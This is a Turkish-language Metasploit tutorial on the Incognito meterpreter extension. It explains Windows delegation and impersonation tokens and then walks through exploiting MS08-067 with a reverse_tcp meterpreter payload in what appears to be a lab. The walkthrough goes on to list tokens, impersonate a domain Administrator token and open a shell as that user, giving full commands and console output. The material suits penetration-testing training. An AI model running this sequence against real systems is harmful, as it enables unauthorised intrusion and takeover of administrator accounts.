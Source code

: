 ```yaml
---
draft: false

title:  'MSF Incognito'
date: '2017-06-05T13:24:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Bir sisteme giriş yaptığınızda, sistemde bulunan kullanıcılara ait\_token\_adı verilen izin ve yetkilendirme kuralları bulunur. Bu kurallar, web uygulamalarında kullanılan\_cookie\_denilen çerez dosyalarına benzer. Kullanıcı ağdaki bir servise (örn. Net drive) ilk bağlandığında kullanıcı adı ve parolasıyla oturum açar. Oturum açıldığında sistem bu kullanıcıya bir\_token\_tanımlar. Artık bilgisayar kapanana kadar tekrar tekrar parola girmeden, sistemde bulunan servisi kullanma imkanı olacaktır." 
 
url:  /tr/msf-incognito/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```

## Incognito Nedir?

Bir sisteme giriş yaptığınızda, sistemde bulunan kullanıcılara ait **token** adı verilen izin ve yetkilendirme kuralları bulunur. Bu kurallar, web uygulamalarında kullanılan **cookie** denilen çerez dosyalarına benzer. Kullanıcı ağdaki bir servise (örn. Net drive) ilk bağlandığında kullanıcı adı ve parolasıyla oturum açar. Oturum açıldığında sistem bu kullanıcıya bir **token** tanımlar. Artık bilgisayar kapanana kadar tekrar tekrar parola girmeden, sistemde bulunan servisi kullanma imkanı olacaktır.

Pentest işlemleri esnasında bu **token** ve yetkilerini ele geçirerek kullanmaya **incognito** işlemi denilmektedir. **token** izinleri, ikiye ayrılmaktadır. Bunlara **delegate** ve **impersonate** adı verilmektedir. Okuyucunun kafasının karışmaması için biz de İngilizce şekillerini kullanmaya devam edeceğiz.

Delegate: token izinleri beyan ediciler olarak kullanılır. Etkileşimli oturumlarda, örneğin uzak masaüstü bağlantıları tarzında işlemler için kullanılırlar.

Impersonate: token izinleri kişisel olarak üretilmiş izinlerdir ve etkileşim olmayan servisler için kullanılırlar. Örneğin bir ağ klasörüne bağlanmak gibi.
<!-- wp:quote -->
<blockquote class="wp-block-quote">
Dosya sunucuları bu token izinleri için çok zengin bir bilgi kaynağıdırlar.
</blockquote>
<!-- /wp:quote -->
Hedef sistemde bir token ele geçirdiğinizde, artık bir servise bağlanmak için o kullanıcının parolasını bilmeye gerek kalmaz çünkü yetkilendirme önceden yapılmıştır ve yetki kontrolü **token** iznine güvenilerek arka planda yapılır. Bir sistemde meterpreter shell açıldığında kullanılabilir durumda olan **token** listesi kontrol edilmelidir.

## Meterpreter Oturum Açalım

Aşağıdaki örnekte, öncelikle `ms08_067_netapi` modülü kullanılarak gerekli ayarlar yapılmakta ve bir oturum açılmaktadır.
```bash
msf > use exploit/windows/smb/ms08_067_netapi
msf exploit(ms08_067_netapi) > set RHOST 10.211.55.140
RHOST => 10.211.55.140
msf exploit(ms08_067_netapi) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(ms08_067_netapi) > set LHOST 10.211.55.162
LHOST => 10.211.55.162
msf exploit(ms08_067_netapi) > set LANG english
LANG => english
msf exploit(ms08_067_netapi) > show targets

Exploit targets:

   Id  Name                                               
   --  ----                                               
   0   Automatic Targeting                                
   1   Windows 2000 Universal                             
   2   Windows XP SP0/SP1 Universal                       
   3   Windows XP SP2 English (NX)                        
   4   Windows XP SP3 English (NX)                        
   5   Windows 2003 SP0 Universal                         
   6   Windows 2003 SP1 English (NO NX)                   
   7   Windows 2003 SP1 English (NX)                      
   8   Windows 2003 SP2 English (NO NX)                   
   9   Windows 2003 SP2 English (NX)                      
   10  Windows XP SP2 Arabic (NX)                         
   11  Windows XP SP2 Chinese - Traditional / Taiwan (NX) 
msf exploit(ms08_067_netapi) > set TARGET 8
target => 8
msf exploit(ms08_067_netapi) > exploit

> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Triggering the vulnerability...
> Transmitting intermediate stager for **over-sized stage...(191 bytes)
> Sending stage (2650 bytes)
> Sleeping before handling stage...
> Uploading DLL (75787 bytes)...
> Upload completed.
> Meterpreter session 1 opened (10.211.55.162:4444 -> 10.211.55.140:1028)

meterpreter >
```

## Incognito Modülünü Yükleyelim

Meterpreter oturumu açmayı başardıktan sonra `incognito` modülünü kullanmamız gerekiyor. `Incognito` modülü, meterpreter e ait bir modül olduğundan `use incognito` komutuyla modülü aktif hale getiriyoruz. Ardından `help` komutunu verdiğinizde, `incognito` modülüne özel komutları görebiliriz.
```bash
meterpreter > use incognito
Loading extension incognito...success.
meterpreter > help

Incognito Commands
**==================**

    Command              Description                                             
    -------              -----------                                             
    add_group_user       Attempt to add a user to a global group with all tokens 
    add_localgroup_user  Attempt to add a user to a local group with all tokens  
    add_user             Attempt to add a user with all tokens                   
    impersonate_token    Impersonate specified token                             
    list_tokens          List tokens available under current user context        
    snarf_hashes         Snarf challenge/response hashes for **every token         

meterpreter >
```

## Sistemdeki token Listesi

Meterpreter içerisinde `incognito` modülünü yükledikten sonra `list_tokens` komutuyla listeyi kontrol edelim. Listede bulunan bir takım **token** izinlerine Administrator kullanıcılarının bile erişimi olmayabilir. Bizim en fazla ilgileneceğimiz tür **SYSTEM** token izinleridir.
```bash
meterpreter > list_tokens -u

Delegation Tokens Available
**========================================**
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY ETWORK SERVICE
NT AUTHORITY\SYSTEM
SNEAKS.IN\Administrator

Impersonation Tokens Available
**========================================**
NT AUTHORITY\ANONYMOUS LOGON

meterpreter >
```

Yukarıda listede bulunan `SNEAKS.IN\Administrator` isimli token fark ettiyseniz **Delegation** listesinde bulunmaktadır. Bunu **Impersonation** haline getirerek kişiselleştirmeniz gerekmektedir. Bunun için `impersonate_token` komutunu kullanacağız. Komutu girerken iki adet `\\` işareti kullanmaya dikkat edin. Listede `\` tek olsa da komutu girerken iki adet girilmelidir.
```bash
meterpreter > impersonate_token SNEAKS.IN\\Administrator
[+] Delegation token available
[+] Successfully impersonated user SNEAKS.IN\Administrator
meterpreter > getuid
Server username: SNEAKS.IN\Administrator
meterpreter >
```

Komut başarıyla sonlandığında `getuid` komutuyla kullanıcı kimliğini kontrol ettiğimizde `Server username: SNEAKS.IN\Administrator` sonucu aldık.

## Yeni Kullacı ile Shell Açma

Meterpreter içerisinde `execute -f cmd.exe -i -t` komutu ile komut satırında oturum açalım ve `whoami` komutuyla Windows kullanıcı kimliğine bakalım. Burada `-i` seçeneği **interact*** yani etkileşimli, `-t` seçeneği ise yeni ele geçirdiğimiz `SNEAKS.IN\Administrator` token iznini kullanmayı ifade eder.
```bash
meterpreter > shell
Process 2804 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32> whoami
whoami
SNEAKS.IN\administrator

C:\WINDOWS\system32>
```

Kişisel bilgisayarlarda karşılaşabileceğiniz **token** izinlerine, sunucu bilgisayarlarda daha çok rast gelebilirsiniz. Sunucularda bir çok servis etkileşimli ve çok kullanıcılı olarak çalıştığından liste daha uzun olacaktır. Bunların arasından en çok yetkili **token** izinleri denemelisiniz.
